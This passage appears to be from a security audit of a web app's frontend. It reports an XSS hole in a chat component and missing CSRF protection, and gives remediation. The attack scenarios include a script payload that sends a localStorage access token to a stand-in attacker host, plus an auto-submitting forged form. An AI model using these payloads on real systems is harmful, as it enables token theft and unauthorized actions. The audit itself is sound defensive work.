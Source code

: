### 2. XSS Vulnerability via dangerouslySetInnerHTML (CRITICAL)
**Location:** `/workspace/frontend/components/agents/StructuredAgentChat.tsx:565`

**Issue:**
```tsx
<div dangerouslySetInnerHTML={{ 
  __html: message.content
    .replace(/\*\*(.*?)\*\*/g, '<strong>$1</strong>')
    .replace(/\n/g, '<br/>')
    .replace(/•/g, '&bull;') 
}} />
```

**Impact:**
- **Direct XSS:** Unsanitized user/agent content rendered as HTML
- **Script Injection:** Attacker can inject `<script>` tags
- **Token Theft:** Combined with localStorage, enables token theft
- **DOM Manipulation:** Can modify entire page

**Attack Scenario:**
```javascript
// Malicious agent response or user input
message.content = "Hello <script>fetch('https://attacker.com/steal?token=' + localStorage.getItem('access_token'))</script>"
```

**Remediation:** Use DOMPurify or markdown library with sanitization  
**Timeline:** Week 1 (IMMEDIATE)

---

### 3. No CSRF Protection (CRITICAL)
**Location:** System-wide

**Issue:**
- No CSRF tokens in API requests
- No SameSite cookie attributes for session management
- State-changing operations vulnerable to CSRF

**Impact:**
- **Unauthorized Actions:** Attacker can perform actions as authenticated user
- **Data Modification:** Can create/update/delete resources
- **Account Takeover:** Can change user settings/password

**Attack Scenario:**
```html
<!-- Attacker's website -->
<form action="https://valueverse.ai/api/v1/value-models" method="POST">
  <input type="hidden" name="name" value="Malicious Model">
  <input type="hidden" name="target_value" value="999999">
</form>
<script>document.forms[0].submit();</script>
```

